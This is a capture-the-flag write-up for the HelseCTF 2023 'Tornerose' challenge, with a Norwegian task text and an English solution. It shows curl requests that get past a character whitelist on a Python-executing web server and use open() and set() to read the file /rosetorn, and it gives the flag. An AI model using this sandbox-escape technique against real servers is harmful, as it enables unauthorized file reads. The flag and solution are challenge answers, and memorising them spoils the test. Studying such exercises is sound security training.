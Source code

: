 # Tornerose (500)

Nestor Roe er veldig glad i fortellingen om Tornerose. Når dagen går litt dårlig sender han ofte følgende Python-program til webserveren sin for å bli litt glad igjen:

print("tornerose/prins")
Programmet kjøres ved å bruke en GET-request, slik som dette:

https://helsectf2023-6ac4e1c6d8855c1bd96a-tornerose.chals.io/?program=print("tornerose/prins")
Responsen er output av Python-programmet som sendes inn: tornerose/prins

Han har hvitelista kun de 12 forskjellige tegnende som programmet består av, einoprst"/(), slik at ingen skal kunne kjøre noe utilsiktet kode på serveren. Men det er en torn i siden på hvitelistinga.

Kan du lese flagget som ligger i fila /rosetorn?

https://helsectf2023-6ac4e1c6d8855c1bd96a-tornerose.chals.io/

# Solution

```
einoprst"/()
```

Curling a lot of functions here. This is what I had until a friend of me came with a tip.

```
$ curl "https://helsectf2023-6ac4e1c6d8855c1bd96a-tornerose.chals.io/?program=print(open(\"/rosetorn\"))"
<_io.TextIOWrapper name='/rosetorn' mode='r' encoding='UTF-8'>
```

To wrap that TextIOWrapper in a "set" 

Doing that gave me the flag:

```
$ curl "https://helsectf2023-6ac4e1c6d8855c1bd96a-tornerose.chals.io/?program=print(set(open(\"/rosetorn\")))"
{'helsectf{og_h4cken_vokste_kjempeh0y}\n'}
```

# Flag

```
helsectf{og_h4cken_vokste_kjempeh0y}
```